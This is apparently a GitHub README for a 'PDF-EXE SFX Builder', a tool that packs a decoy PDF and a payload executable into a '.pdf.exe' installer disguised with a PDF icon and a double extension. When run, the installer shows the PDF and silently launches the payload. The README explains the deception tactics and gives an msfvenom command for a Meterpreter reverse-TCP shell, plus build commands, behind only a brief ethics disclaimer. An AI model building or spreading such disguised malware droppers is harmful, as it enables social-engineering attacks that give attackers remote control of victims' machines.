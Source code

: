 # 📦 PDF-EXE SFX Builder

A cross-platform Python tool to bundle a **decoy PDF** and a **payload EXE** into a single `.pdf.exe` Windows executable using NSIS (Nullsoft Scriptable Install System). On execution, the final file silently drops both files into the temporary directory and runs them — showing the PDF while triggering the EXE.

---

## 🚀 Features

* Automatically binds a PDF and EXE into one executable.
* Uses `.pdf.exe` **double extension** for deception.
* Works on **Windows and Linux**.
* Embeds a **PDF icon** to appear trustworthy.
* Creates **silent installers** using NSIS.
* **Customizable icon** — just replace `pdf_icon.ico` in the repo with your own `.ico` file.

---

## 🎭 How Deception Works

### 🧠 Double Extension Tactic (`filename.pdf.exe`)

On most systems:

* The default setting hides known extensions.
* A file named `document.pdf.exe` appears as `document.pdf` to the user.
* The icon shows a PDF symbol — making it more believable.

🛑 **This is a common social engineering trick used by attackers**, so ensure your use is ethical and educational.

---

## 💡 Example Use Case: Meterpreter or PowerShell Payload

### 1. Generate Payload with `msfvenom`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > payload.exe
```

### 2. Or Convert PowerShell Script to EXE

Use tools like:

* [ps2exe](https://github.com/MScholtes/PS2EXE)
* IExpress

Then use that `.exe` with this builder.

---

## 🛠️ Prerequisites

### ✅ For Windows:

* Python 3.x
* `nsis/makensis.exe` must be present in the project (portable NSIS included)

### ✅ For Linux:

```bash
sudo apt update
sudo apt install nsis python3
```

Make sure `makensis` is available at `/usr/bin/makensis`

---

## 📂 Project Structure

```
pdf-exe-sfx-builder/
├── nsis/
│   └── makensis.exe        # (Windows only)
├── pdf_icon.ico            # PDF icon for deception (can be replaced to change output icon)
├── pdf_installer.py        # Main script
└── README.md
```

---

## ⚙️ Usage

```bash
python pdf_installer.py <path_to_pdf> <path_to_exe> <output_name>
```

### Example:

```bash
python pdf_installer.py report.pdf payload.exe final_output
```

📦 This generates: `final_output.pdf.exe`

---

## 🧰 What Happens Internally

1. A temp directory is created.
2. PDF and EXE are copied there.
3. An `.nsi` script is generated.
4. NSIS bundles them into a final silent installer.
5. That installer, when run:

   * Extracts both files to `%TEMP%`
   * Opens the PDF (for cover)
   * Executes the payload EXE (in background)

---

## 🔐 Disclaimer

This tool is created **for educational and ethical penetration testing** purposes only.

> Never use this tool to target devices or individuals without proper authorization. The misuse of this software can lead to serious legal consequences.

---

## 🤝 Credits

Developed by **RITVIJ GAUR** aka *superflex*, part of the **HackingFlix** community.

Pull requests welcome. Star the repo if you find it useful! ⭐
